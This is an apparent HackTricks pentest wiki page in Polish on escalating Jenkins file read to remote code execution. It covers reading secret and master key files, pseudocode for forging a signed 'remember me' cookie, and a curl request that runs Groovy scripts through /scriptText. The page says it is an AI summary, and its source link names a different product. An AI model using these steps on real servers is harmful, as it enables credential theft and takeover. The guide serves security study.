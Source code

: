 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

W tym wpisie na blogu można znaleźć świetny sposób na przekształcenie podatności Local File Inclusion w Jenkins w RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

To jest podsumowanie stworzone przez AI części wpisu, w której nadużywa się tworzenia dowolnego ciasteczka, aby uzyskać RCE, nadużywając lokalnego odczytu pliku, aż będę miał czas, aby stworzyć własne podsumowanie:

### Wymagania wstępne ataku

* **Wymaganie funkcji:** "Zapamiętaj mnie" musi być włączone (domyślne ustawienie).
* **Poziomy dostępu:** Atakujący potrzebuje uprawnień Ogólnych/Odczytu.
* **Dostęp do sekretów:** Możliwość odczytu zarówno zawartości binarnej, jak i tekstowej z kluczowych plików.

### Szczegółowy proces eksploatacji

#### Krok 1: Zbieranie danych

**Pobieranie informacji o użytkowniku**

* Uzyskaj konfigurację użytkownika i sekrety z `$JENKINS_HOME/users/*.xml` dla każdego użytkownika, aby zebrać:
* **Nazwa użytkownika**
* **Ziarno użytkownika**
* **Znacznik czasu**
* **Hash hasła**

**Ekstrakcja klucza sekretnego**

* Wyodrębnij klucze kryptograficzne używane do podpisywania ciasteczka:
* **Klucz sekretu:** `$JENKINS_HOME/secret.key`
* **Klucz główny:** `$JENKINS_HOME/secrets/master.key`
* **Plik klucza MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Krok 2: Fałszowanie ciasteczka

**Przygotowanie tokena**

*   **Oblicz czas wygaśnięcia tokena:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Dodaje jedną godzinę do bieżącego czasu
```
{% endcode %}
*   **Konkatenacja danych dla tokena:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Deszyfrowanie klucza MAC**

*   **Deszyfruj plik klucza MAC:**

```javascript
key = toAes128Key(masterKey)  // Konwertuj klucz główny na format klucza AES128
decrypted = AES.decrypt(macFile, key)  // Deszyfruj plik .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Obliczanie podpisu**

*   **Oblicz HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Oblicz HMAC używając tokena i klucza MAC
tokenSignature = bytesToHexString(mac)  // Konwertuj MAC na ciąg szesnastkowy
```

**Kodowanie ciasteczka**

*   **Generuj końcowe ciasteczko:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Koduj dane ciasteczka w base64
```
{% endcode %}

#### Krok 3: Wykonanie kodu

**Uwierzytelnianie sesji**

* **Pobierz tokeny CSRF i sesji:**
* Wykonaj żądanie do `/crumbIssuer/api/json`, aby uzyskać `Jenkins-Crumb`.
* Przechwyć `JSESSIONID` z odpowiedzi, który będzie używany w połączeniu z ciasteczkiem "zapamiętaj mnie".

**Żądanie wykonania polecenia**

*   **Wyślij żądanie POST z skryptem Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Skrypt Groovy może być użyty do wykonywania poleceń na poziomie systemu lub innych operacji w środowisku Jenkins.

Przykład polecenia curl pokazuje, jak wykonać żądanie do Jenkins z niezbędnymi nagłówkami i ciasteczkami, aby bezpiecznie wykonać dowolny kod.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

